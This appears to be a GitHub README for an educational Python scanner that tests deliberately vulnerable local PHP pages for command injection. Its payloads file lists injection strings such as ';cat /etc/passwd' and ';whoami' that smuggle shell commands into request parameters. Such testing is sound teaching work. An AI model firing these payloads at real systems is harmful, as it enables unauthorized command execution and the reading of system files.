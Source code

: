 # Scanner and Command Injection
## Introduction
The idea of this vulnerability scanner and command injection is to show some examples on how vulnerable parameters can be exploited in order to execute commands.

## Note
The scanner won't work on every environment, injections are based on linux commands.

## Requirements
### Languages
+ Python (for application code)
+ PHP (for vulnerable server code)

### Libraries
+ requests

## Code explanation
The application code reads input files (created by the user) and send HTTP requests based on the specified method. Commands in payloads file will be injected into each parameter by using permutations. A different request will be sent for each payloads permutation.<br>
Server response is elaborated in order to check vulnerabilities. This check is based on a simple idea of looking if specific strings are in response body.<br>
If a vulnerability is found a descriptive line will be written inside the output file. 

## Input files
+ assets/input/requests-details.txt<br>
used to specify the list of requests details containing HTTP method, resource and parameters under test.<br>
The format used to specify the details is: HTTP method:resource:parameter1,parameter2,..
+ assets/input/payloads.txt<br>
used to specify the list of commands that will be used in a specific request (based on files row number). <br>
Each command is separated by tilde.

### requests.details.txt example
```
GET:/echo-name.php:name
GET:/ping.php:host
GET:/ping-escapeshellcmd.php:host
GET:/find-escapeshellcmd.php:input
GET:/ping-no-amp.php:host
GET:/ping-no-semicol.php:host
GET:/ping-no-pipe.php:host
GET:/ping-no-space.php:host
GET:/ping-no-amp.php:host
```

### payloads.txt example
```
;ls~;whoami
;cat /etc/passwd
;ls -la
ping.php -exec whoami ;
;head ping.php
;grep php echo.php
;grep php echo.php
;ls
;ifconfig | grep inet
;cat /etc/passwd
```

## Config file
```python
DEBUG = True # if True, code execution prints debugging lines

TARGET = 'http://localhost:8000' # target

VULNERABILITY_OUTPUT_PATH = 'assets/output/vulnerability-output.txt' # output path

REQUESTS_INPUT_PATH = 'assets/input/requests-details.txt' # requests list path
PAYLOADS_INPUT_PATH = 'assets/input/payloads.txt' # commands list path

REQUESTS_SPLIT_VAL = ':' # split char for requests
REQUESTS_PARAMETERS_SPLIT_VAL = ',' # split char for parameters in requests
PAYLOADS_SPLIT_VAL = '~' # split char for commands values

CURRENT_USER = 'andre' # known user used for whoami test
```

## Run execution
### Server
```console
foo@bar:~$ cd "target environment"
foo@bar:~$ php -S localhost:8000
```

### Application
```console
foo@bar:~$ python main.py
```

## Output
Output file is saved on assets/output/vulnerability-output.txt file.

## Author
+ [Andrea Mercuri](https://github.com/ilmercu)